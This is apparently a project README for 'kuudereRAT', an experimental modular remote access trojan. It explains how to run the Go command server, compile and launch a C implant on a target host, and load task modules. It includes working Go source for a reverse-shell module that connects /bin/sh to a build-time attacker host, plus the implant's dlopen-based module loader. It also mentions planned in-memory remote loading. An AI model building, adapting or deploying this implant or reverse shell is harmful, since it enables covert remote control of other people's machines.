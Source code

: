 # kuudereRAT
experimental modular RAT

# Usage 
in ```src/server``` directory edit main.go and select options for listener the default is set to listen on ```0.0.0.0:23855``` and the webserver to be started on ```8080```

# Functionality
Phones home to server repeatedly. Tasks are written as modules in Go and the implant will pick up and run a task if one is available. 

# Implant
Current fully functional implant is ```src/client/simplant/implant.c``` and it can be built with ```gcc -o implant implant.c -ldl```

The implant is run on the target host with ```./implant <ipaddr> <port>```

```desu.sh``` is a script that will copy the code to a file and then compile and execute the implant. 

Future versions will enable this script to be loaded remotely and executed from memory.

# Running
```go run main.go``` to startup the server and web interface.
Tasks are loaded through the web interface.

# Modules
Modules are written in Go and compiled to shared library (.so) for Linux hosts. This is a simple reverse shell module example. Function runModule() is exported and gets called by the implant starting a "go routine" for the shellStart() function. The implant is designed to create a function pointer to runModule() and any subsequent models should use this example format.

In this instance ```buildmodule.sh <ip> <port>``` is used to set the target host information at buildtime. 

```
package main

import (
	"C"
	"net"
	"os/exec"
)

var Host string

func shellStart() {
	conn, err := net.Dial("tcp", Host)
	if (err != nil) {
		return
	}
	cmd := exec.Command("/bin/sh")
	cmd.Stdin=conn
	cmd.Stdout=conn
	cmd.Stderr=conn
	cmd.Run()
}

//export runModule
func runModule() {
	go shellStart()
}

func main() {}
```

Code responsible for running modules on implant. Theoretically could run any program compiled to a shared library and with runModule() function exported.

```
void *handle;
const char* error_msg;
void (*execute)(void);

handle = dlopen(path, RTLD_LAZY);
if ( !handle ) {
    fprintf(stderr, "%s\n", dlerror());
    break; 
}
close(afd);
dlerror();
execute = dlsym(handle, "runModule");
error_msg = dlerror();
if ( error_msg ) {
    fprintf(stderr, "Error accessing function %s \n", error_msg);
    break;
}

(*execute)();
dlclose(handle);
```

# TODO
A lot lol. Main focuses are encryption, windows implant, and improving the web interface (module settings, implant generation, config options)